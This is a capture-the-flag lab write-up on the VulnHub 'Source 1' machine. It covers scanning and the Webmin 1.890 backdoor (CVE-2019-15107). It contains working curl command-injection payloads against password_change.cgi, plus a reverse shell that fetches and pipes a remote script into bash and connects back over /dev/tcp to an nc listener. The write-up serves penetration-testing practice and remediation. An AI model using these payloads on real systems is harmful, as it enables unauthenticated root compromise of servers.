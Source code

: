 # Source 1

Difficulty:: #VeryEasy
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [SOURCE: 1](https://www.vulnhub.com/entry/source-1,514/)
- CVSS3 : [AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:H/RL:O/RC:C/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:H/RL:O/RC:C/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*An easy CTF box created for use with the AttackerKB room. This is the standalone version for practicing. This box will likely show up in a subsequent room on supply chain attacks as it's an excellent and recent example of that. This works better with VMware rather than VirtualBox (Blank screen)*


## Summary
SOURCE: 1 starts with a custom `HTTP` service in port `10000`, and it is the `MiniServ 1.890 (Webmin httpd)`, when I go to that service I find it redirects to `https://source:10000`, after google research I find the [Webmin official site](https://www.webmin.com/) and there they mentions a vulnerability that affects that version and I find a [PoC in a GitHub repository](https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE). The vulnerability is a backdoor `CVE-2019-15107` and I identify that it is running by the `root` user. then I perform a reverse shell, and I get the user and the root flag.

1. CWE-78: Improper Neutralization of Special Elements used in an OS Command

#VMWare #Nmap #Python #Webmin #Backdoor

## Enumeration
When I run the target machine in VMware Workstation 17 Player (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s3 -r 192.168.56.1/24
```
Then I compare the MAC with that of the target VMware configuration, and I find out that the IP is `192.168.56.108`

![evidence](./static/00-vmware.png)

And I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-scan 192.168.56.108
# Nmap 7.92 scan initiated Wed Jan 25 14:39:49 2023 as: nmap -sV -oA scans/nmap-tcp-scan 192.168.56.108
Nmap scan report for 192.168.56.108
Host is up (0.047s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 25 14:40:30 2023 -- 1 IP address (1 host up) scanned in 40.86 seconds
```
And I identify 2 open ports, the `OpenSSH 7.6p1` service runs in `22` TCP, and `MiniServ 1.890 (Webmin httpd)` service runs in `10000` TCP, and it runs on `Ubuntu 4ubuntu0.3`. When I make the `OPTIONS` request with the `curl` command:
```shell
$ curl -X OPTIONS 192.168.56.108:10000
<h1>Error - Document follows</h1>
<p>This web server is running in SSL mode. Try the URL
<a href='https://source:10000/'>https://source:10000/</a> instead.<br></p>
```
Then I can see that it uses a `https`, and the `source` domain name, then I add it to my `/etc/hosts` file:
```shell
$ echo "192.168.56.108 source" | sudo tee -a /etc/hosts
```

## Normal use case
Login to Webmin.

Given I access `https://source:10000`, then I can see a login form:

![evidence](./static/01-index.png)

But without credentials, I can not do anything.

## Dynamic detection
`CVE-2019-15107` unauthenticated remote code execution on `Webmin 1.890`.

Given I access `https://source:10000`, and I know it runs `MiniServ`, then I start looking at that services. When I google `MiniServ 1.890 HTTP`, then I find the [Webmin official site](https://www.webmin.com/):

![evidence](./static/02-webmin.png)

And I also find something about a backdoor:

![evidence](./static/03-webmin-exploit.png)

And I find a [PoC in a GitHub repository](https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE):

![evidence](./static/04-exploit-poc.png)
And I also find it in [exploit-db](https://www.exploit-db.com/exploits/47230):

![evidence](./static/05-exploit-db.png)

And it has the `CVE-2019-15107`, and the backdoor allows unauthenticated remote code execution. When I test the PoC:
```shell
$ curl -k https://source:10000/password_change.cgi -d \
>'user=gotroot&pam=&expired=2|echo "";id' \
> -H 'Referer: https://source:10000/session_login.cgi'

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
</p>
```
Then I can see that the service is running by the root user, then I can conclude that the vulnerability exists on the server.

## Exploitation
Reverse shell with the `CVE-2019-15107`.

Given I access `https://source:10000`, and it uses `Webmin 1.890`, and that version is vulnerable to `CVE-2019-15107`, and I already checked the vulnerability of the backdoor, then I can try to get a reverse shell.

When I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I store the reverse shell command in the `rs.sh` file
```shell
$ echo "bash -c 'bash -i >& /dev/tcp/192.168.56.101/1234 0>&1'" > rs.sh
```
And I open an `HTTP` server with Python3:
```shell
$ python3 -m http.server 8000
```
And I use the following `curl` command:
```shell
$ curl -k https://source:10000/password_change.cgi -d \
> 'user=gotroot&pam=&expired=2|echo "";
> wget -O- 192.168.56.101:8000/rs.sh|bash' \
> -H 'Referer: https://source:10000/session_login.cgi'
```
Then I get the reverse shell as the root user:

![evidence](./static/06-reverseshell.png)

And I can get the user flag:

![evidence](./static/07-censored-userflag.png)

And the root flag:

![evidence](./static/08-censored-rootflag.png)

## Remediation
Given the server runs `Webmin 1.890`, then they must update to the latest version, and do not use the root user to run services that will be exposed.